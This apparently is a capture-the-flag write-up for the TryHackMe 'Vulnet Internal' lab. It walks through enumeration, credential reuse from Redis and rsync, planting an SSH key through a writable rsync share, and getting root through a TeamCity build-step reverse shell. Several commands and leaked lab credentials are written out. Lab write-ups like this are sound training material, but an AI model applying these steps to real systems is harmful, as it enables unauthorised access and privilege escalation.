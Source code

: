```yaml
---
title: Vulnet Internal
date: 2022-09-13 02:30:00 +0530
category: [Linux,Tryhackme]
tags: [Linux,TryHackMe]

---
```


# Enumeration

Starting with nmap
```bash
Nmap scan report for 10.10.30.99                                                                                                                                  [29/40]
Host is up (0.21s latency).                                                         
                                                                                    
PORT     STATE    SERVICE     VERSION                                               
22/tcp   open     ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                                                               
| ssh-hostkey:                                                                      
|   2048 5e:27:8f:48:ae:2f:f8:89:bb:89:13:e3:9a:fd:63:40 (RSA)                      
|   256 f4:fe:0b:e2:5c:88:b5:63:13:85:50:dd:d5:86:ab:bd (ECDSA)                     
|_  256 82:ea:48:85:f0:2a:23:7e:0e:a9:d9:14:0a:60:2f:ad (ED25519)                                                                                                        
111/tcp  open     rpcbind     2-4 (RPC #100000)                                     
| rpcinfo:                              
|   program version    port/proto  service                                                                                                                               
|   100000  2,3,4        111/tcp   rpcbind                                          
|   100000  2,3,4        111/udp   rpcbind                                          
|   100000  3,4          111/tcp6  rpcbind                                          
|   100000  3,4          111/udp6  rpcbind                                                                                                                               
|   100003  3           2049/udp   nfs                                              
|   100003  3           2049/udp6  nfs  
|   100003  3,4         2049/tcp   nfs                                              
|   100003  3,4         2049/tcp6  nfs                                              
|   100005  1,2,3      37917/tcp6  mountd                                           
|   100005  1,2,3      38732/udp   mountd                                           
|   100005  1,2,3      38765/tcp   mountd                                           
|   100005  1,2,3      59433/udp6  mountd                                           
|   100021  1,3,4      33219/udp6  nlockmgr                                         
|   100021  1,3,4      37285/tcp   nlockmgr                                         
|   100021  1,3,4      45515/tcp6  nlockmgr                                         
|   100021  1,3,4      59572/udp   nlockmgr                                         
|   100227  3           2049/tcp   nfs_acl                                                                                                                               
|   100227  3           2049/tcp6  nfs_acl                                          
|   100227  3           2049/udp   nfs_acl                                          
|_  100227  3           2049/udp6  nfs_acl 
139/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open     netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
873/tcp  open     rsync       (protocol version 31)
2049/tcp open     nfs_acl     3 (RPC #100227)
9090/tcp filtered zeus-admin
Service Info: Host: VULNNET-INTERNAL; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -40m00s, deviation: 1h09m16s, median: -1s
|_nbstat: NetBIOS name: VULNNET-INTERNA, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: vulnnet-internal
|   NetBIOS computer name: VULNNET-INTERNAL\x00
|   Domain name: \x00
|   FQDN: vulnnet-internal
|_  System time: 2021-05-08T08:52:56+02:00 
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-05-08T06:52:56
|_  start_date: N/A
```

We have few ports open. Lets start poking at them.

### SMB
```bash
smbclient -L //10.10.30.99
Enter WORKGROUP\root's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        shares          Disk      VulnNet Business Shares
        IPC$            IPC       IPC Service (vulnnet-internal server (Samba, Ubuntu))
```

We have read access to shares directory. Looking at it, we found few files but nothing much interesting except the flag.

### NFS
Check what share is available to mount
```bash
showmount -e 10.10.30.99
Export list for 10.10.30.99:
/opt/conf *
```

We can mount this share to access it on our local machine. Simply, `mount 10.10.30.99:/opt/conf <our_mount_dir>`. Now we can access the files locally
```bash
hp
init
opt
profile.d
redis
vim
wildmidi
```
Few interesting files here. The *hp* folder, seems like a printer configuration file. We found an interesting file, redis folder which contains *redis.conf* file. But our nmap didnt find redis server running, running nmap for all ports, it found port 6379 running.
Looking at redis.conf file, we found the authentication password.
```
requirepass : B65Hx562F@ggAZ@F
```

We can now interact with redis server. Connect to it using *nc*, `nc IP 6379`.
```bash
nc 10.10.30.99 6379                                                                                    
auth B65Hx562F@ggAZ@F                                                                                                                                                    
+OK                                                                                                                   

keys *                                                                                                                                                                   
*5                                                                                                                                                                       
$8                                                                                                                                                                       
authlist                                                                                                                                                                 
$10                                                                                                                                                                      
marketlist                                                                                                                                                               
$3                                                                                                                                                                       
int                                                                                                                                                                      
$3                                                                                                                                                                       
tmp
$13
internal flag

dump "internal flag"
FLAG

# it does seems like base64 string with some extra data appended ( coz I dont know how to interact with redis that good enough.)
dump authlist
$156
@Ac @pQXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg==srFX"R

# We can list the above info using this
type authlist
+list
lrange authlist 1 100
```

Decoding the base64 string we found password for rsync
```bash
Authorization for rsync://rsync-connect@127.0.0.1 with password Hcg3HP67@TW@Bc72v
```

### RSYNC
```bash
rsync rsync://rsync-connect@10.10.30.99
files           Necessary home interaction

rsync rsync://rsync-connect@10.10.30.99/files/sys-internal                                       
Password: 
drwxr-xr-x          4,096 2021/02/06 18:19:29 sys-internal

rsync rsync://rsync-connect@10.10.30.99/files/sys-internal/
Password: 
drwxr-xr-x          4,096 2021/02/06 18:19:29 .
...[snip]...
-rw-------             38 2021/02/06 17:24:25 user.txt
drwxrwxr-x          4,096 2021/05/08 13:15:17 .ssh
```

We have .ssh folder but it was empty. No problem, we can upload our public key into it. Rename our public key to *authorized_keys* and upload it
```bash
rsync authorized_keys rsync://rsync-connect@10.10.30.99/files/sys-internal/.ssh/
```

Now we can ssh into the box.

# ROOT
Running linpeas didn't find any usefull information. Looking at the listening ports
```bash
$ ss -ltnp
tcp              LISTEN             0                  100                              [::ffff:127.0.0.1]:8111                                       *:* 
```
This port was running a webserver, which we can confirm using curl/wget.

Also there was a folder name `TeamCity` in the root directory which was being run by root. This could be potential priv esc vector.
It was running on localhost, we can forward the port to us
```bash
ssh -i ../sys -L 8000:127.0.0.1:8111 sys-internal@10.10.30.99
```

Now we can access the webserver  on our localhost port 8000. It needs authentication, but we dont have any creds. Trying earlier found passwords and default but nothing.
Looking at logs directory in the Teamcity folder, we found a log
```bash
Super user authentication token: 5812627377764625872 (use empty username with the token as the password to access the server)
Super user authentication token: 9020742256179529134 (use empty username with the token as the password to access the server)
```

Trying out the latest one, and it got accepted. We have super-user rights on it. 
We can make a project. For priv esc, we need to make a project -> build configuration -> build steps. Run a python script for reverse shell.

![image](https://user-images.githubusercontent.com/43528306/117533778-4776db80-b00c-11eb-9a88-e3157ef4c060.png)


Set-up  a listner and we got connection back.
ROOT!!




